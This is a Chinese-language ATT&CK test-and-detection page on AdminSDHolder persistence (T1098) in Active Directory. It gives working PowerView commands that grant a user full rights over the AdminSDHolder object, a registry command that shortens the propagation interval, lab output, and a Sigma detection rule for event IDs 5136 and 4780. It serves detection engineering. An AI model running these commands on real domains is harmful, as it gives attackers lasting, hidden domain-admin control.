 # T1098-Win-AdminSDHolder

## 来自ATT&CK的描述

帐户操作可以帮助攻击者维持在环境中对凭据和某些权限级别的访问。账户操作可能包括修改权限，修改凭据，添加或更改权限组，修改帐户设置或修改执行身份验证等方式。为了创建或操纵帐户，攻击者必须已经对系统或域具有足够的权限。

## 测试案例

AdminSDHolder是一个特殊的AD容器，具有一些默认安全权限，用作受保护的AD账户和组的模板。

Active Directory将采用AdminSDHolder对象的ACL并定期将其应用于所有受保护的AD账户和组，以防止意外和无意的修改并确保对这些对象的访问是安全的。

如果能够修改AdminSDHolder对象的ACL，那么修改的权限将自动应用于所有受保护的AD账户和组，这可以作为一个域环境权限维持的方法。

## 检测日志

Windows 安全日志

## 测试复现

### 完整利用过程

1.枚举受保护的AD账户和组中的信息

查找有价值的用户，需要确认该用户是否属于受保护的AD账户和组，排除曾经属于受保护的AD账户和组。

2.向AdminSDHolder对象添加ACL

例如添加用户testa对AdminSDHolder的完全访问权限。

默认等待60分钟以后，testa获得对所有受保护的AD账户和组的完全访问权限。

可以通过修改注册表的方式设置权限推送的间隔时间，注册表位置如下：

```reg
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters,AdminSDProtectFrequency,REG_DWORD
```

例如修改成等待600秒的命令如下：

```reg
reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters/v AdminSDProtectFrequency /t REG_DWORD/d 600
```

参考资料：<https://blogs.technet.microsoft.com/askds/2009/05/07/five-common-questions-about-adminsdholder-and-sdprop/>

**注：不建议降低默认间隔时间，因为在大型环境中可能会导致LSASS性能下降。**

3.获得对整个域的控制权限

(1)用户testa能够向域管理员组添加帐户。

验证权限的命令如下：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
```

(2)用户testa能够直接访问域控制器上的文件。

### 测试过程

1.查询AdminSDHolder对象的ACL
查询AdminSDHolder对象的ACL等价于查询"CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org"的ACL。

命令如下：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System"|select IdentityReference
```

真实测试情况

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Import-Module .\PowerView.ps1
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System"|select IdentityR
eference

IdentityReference
-----------------
NT AUTHORITY\Authenticated Users
NT AUTHORITY\SYSTEM
BUILTIN\Administrators
XIAOMI\Domain Admins
XIAOMI\Enterprise Admins
Everyone
NT AUTHORITY\SELF
NT AUTHORITY\SELF
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Windows Authorization Access Group
BUILTIN\Terminal Server License Servers
BUILTIN\Terminal Server License Servers
XIAOMI\Cert Publishers
```

2.向AdminSDHolder对象添加ACL

添加用户xiaomi的完全访问权限，命令如下：

```powershell
Import-Module .\PowerView.ps1
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName xiaomi -Verbose -Rights All
```

注意:本文提到的百度社区参考链接此处存在问题。是Rights不是文中提到的Right

真实测试情况

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -Principal
SamAccountName xiaomi -Verbose -Rights All
详细信息: Get-DomainSearcher search string: LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Get-DomainSearcher search string: LDAP://DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 'All' on
CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 '00000000-0000-0000-0000-000000000000'
rights on CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
```

3.验证用户权限

等待六十分钟后，执行以下命令查询用户xiaomi的权限：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
OR
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | select IdentityReference
```

4.删除AdminSDHolder中指定用户的ACL

搜索条件为"LDAP://CN=AdminSDHolder,CN=System,DC=test,DC=com"

删除用户xiaomi的完全访问权限，命令如下（执行失败）：

```powershell
Remove-DomainObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org" -PrincipalIdentity xiaomi -Rights All -Verbose
```

## 测试留痕

windows安全日志

## 检测规则/思路

### Sigma规则

```yml
title: Windows-AdminSDHolder
description: Windows server 2008 R2（AD域控）
references: 
    - https://github.com/infosecn1nja/AD-Attack-Defense/blob/master/README.md
    - https://github.com/0Kee-Team/WatchAD/blob/master/modules/detect/event_log/persistence/AdminSDHolder.py
tags: 1098
status: 测试阶段 
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 5136  #已修改目录服务对象。AdminSDHolder更改，一般用作权限维持，因为更改情况极少
    selection2:
        EventID: 4780  #ACL设置在管理员组成员的帐户上
    timeframe: last 1h #默认等待60分钟之后生效，具体原因可参考下面SDPROP说明
    condition: all of them
level: medium
```

### 建议

时间范围问题，默认是60分钟后生效，故规则中两个事件之间时间区间范围为60分钟，可根绝实际情况进行修改。

## 参考推荐

域渗透——AdminSDHolder

<https://anquan.baidu.com/article/877>

PowerView

<https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1>

SDPROP说明

<https://xz.aliyun.com/t/7276>

MITRE-ATT&CK-T1098

<https://attack.mitre.org/techniques/T1098/>
